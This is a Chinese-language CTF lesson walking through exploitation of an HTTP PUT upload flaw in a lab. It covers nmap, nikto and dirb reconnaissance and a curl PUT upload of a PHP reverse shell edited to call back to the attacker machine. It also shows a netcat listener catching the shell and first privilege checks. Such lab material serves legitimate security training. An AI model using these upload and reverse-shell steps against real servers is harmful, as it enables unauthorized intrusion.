# CTF入门课程及历年真题：P23：PUT上传漏洞 🚩

在本节课中，我们将学习CTF比赛中一种常见的漏洞——中间件PUT上传漏洞。通过利用此漏洞，攻击者可以将恶意文件上传到服务器，从而获取系统权限并最终得到Flag值。

## 中间件PUT漏洞简介

上一节我们介绍了CTF训练中的中间件PUT漏洞。本节中我们来看看其具体原理。

中间件包括Apache、Tomcat、IIS、WebLogic等程序。这些中间件可以设置支持多种HTTP方法。HTTP方法包括GET、POST、HEAD、DELETE、PUT、OPTIONS等。

每个HTTP方法都有其对应的功能。在这些方法中，PUT方法允许直接从客户端上传文件到服务器。恶意攻击者可以利用中间件开放的PUT方法，直接上传Web Shell到服务器指定的目录。

如果可以成功上传Shell，则从侧面反映出PUT漏洞的严重性。



## 实验环境搭建



以下是本次实验所需的网络环境配置。

*   **攻击机**：Kali Linux，IP地址为 `192.168.1.111`。
*   **靶场机器**：Linux系统，IP地址为 `192.168.1.102`。

我们已经拿到了实验环境。在进行任何操作前，需要明确目标：获取靶场机器的root权限，并得到对应的Flag值。

## 信息收集与探测

现在我们已经有了实验环境，首先要进行第一步：信息收集。首先可以扫描主机开放的全部端口，这里使用Nmap工具。

以下是使用Nmap进行快速全端口扫描的命令。

```bash
nmap -T4 -p- 192.168.1.102
```
*   `-T4`：使用最快速度进行探测。
*   `-p-`：扫描所有端口（1-65535）。

因为扫描所有端口需要发送大量数据包，使用最快速度可以避免等待时间过长。

除了扫描端口，还可以扫描主机的其他详细信息。以下是使用Nmap加载所有模块进行深度扫描的命令。

```bash
nmap -T4 -A -v 192.168.1.102
```
*   `-A`：启用操作系统检测、版本检测、脚本扫描和路由跟踪。
*   `-v`：详细输出扫描结果。



扫描结果显示，靶场机器开放了22号端口（SSH服务）和80端口（HTTP服务）。进一步分析详细扫描结果，可以发现HTTP服务（80端口）的中间件信息及其支持的HTTP方法。



如果开放了HTTP服务，就可以使用其他工具进行敏感信息探测。这里使用Nikto和Dirb工具。

以下是使用Nikto对HTTP服务进行漏洞扫描的命令。

```bash
nikto -h http://192.168.1.102
```
*   `-h`：指定目标主机。

以下是使用Dirb对Web目录进行暴力破解的命令。

```bash
dirb http://192.168.1.102
```

分析扫描结果：
1.  Nmap确认开放22和80端口，并发现HTTP服务支持PUT等方法。
2.  Nikto扫描未发现高危敏感信息。
3.  Dirb扫描发现两个路径：一个图片页面和一个名为`/test/`的目录。访问`/test/`目录显示为空。

## 漏洞验证与利用

在未发现明显漏洞后，需要测试目标是否存在PUT漏洞。我们使用curl工具探测`/test/`目录支持的HTTP方法。

以下是使用curl探测特定目录支持的HTTP方法的命令。

```bash
curl -v -X OPTIONS http://192.168.1.102/test/
```
*   `-v`：输出详细信息。
*   `-X OPTIONS`：发送OPTIONS请求，用于查询服务器支持的HTTP方法。



服务器返回的响应头中显示了允许的HTTP方法，其中包括**PUT**。这证实了该目录存在PUT上传漏洞。

利用PUT漏洞获取Shell的思路是：
1.  上传一个Web Shell到服务器。
2.  通过目录访问该Web Shell并执行。
3.  在攻击机上监听，接收靶场机器反弹回来的Shell。

## 上传Web Shell



首先需要准备一个Web Shell。我们使用Kali Linux自带的PHP反弹Shell。



以下是查找并复制PHP Web Shell到桌面的命令。



```bash
locate php-reverse-shell
cp /usr/share/webshells/php/php-reverse-shell.php ~/Desktop/shell.php
```



编辑这个Shell文件，将其中的连接IP和端口改为攻击机的信息。



```php
// 在shell.php文件中找到并修改以下两行
$ip = ‘192.168.1.111‘; // 攻击机IP
$port = 443; // 监听端口
```

接下来，使用浏览器插件（如Postman或HackBar）或curl命令，通过PUT方法上传Shell文件到`/test/`目录。

以下是使用curl通过PUT方法上传文件的命令示例。





```bash
curl -v -X PUT --data-binary @/home/kali/Desktop/shell.php http://192.168.1.102/test/shell.php
```
*   `--data-binary @`：指定要上传的本地文件路径。





上传成功后，访问`http://192.168.1.102/test/shell.php`应能看到该文件。

## 获取反向Shell

上传Web Shell后，需要在攻击机上设置监听，以接收靶场机器反弹回来的连接。

以下是使用netcat在443端口开启监听的命令。



```bash
nc -nlvp 443
```
*   `-nlvp`：无DNS解析，监听模式，显示详细信息，指定端口。



然后，在浏览器中访问上传的Web Shell文件（`http://192.168.1.102/test/shell.php`）。一旦访问，该脚本会执行并尝试连接到攻击机的443端口。

此时，netcat监听窗口会接收到一个来自靶场机器的Shell连接。



## 权限提升初步

反弹回来的Shell可能是一个受限的Shell。可以执行一些基础命令查看当前权限。

以下是查看当前用户身份和权限的命令。

```bash
id
whoami
```



输出结果可能显示当前用户是`www-data`等低权限用户，而非`root`。为了获取Flag（通常需要root权限），我们需要进行权限提升。权限提升的方法将在后续课程中详细介绍。

## 课程总结

本节课中我们一起学习了PUT上传漏洞的完整利用流程：
1.  **信息收集**：使用Nmap、Nikto、Dirb等工具探测目标。
2.  **漏洞发现**：通过curl测试HTTP方法，发现目标目录支持PUT方法。
3.  **漏洞利用**：上传精心构造的PHP反向Shell。
4.  **建立连接**：在攻击机监听端口，通过访问Shell文件获得反向连接。
5.  **后续操作**：初步检查权限，为后续的权限提升做准备。

通过利用PUT漏洞，我们成功地从外部获取了靶场服务器的Shell访问权限，这是向获取最终Root权限和Flag迈出的关键一步。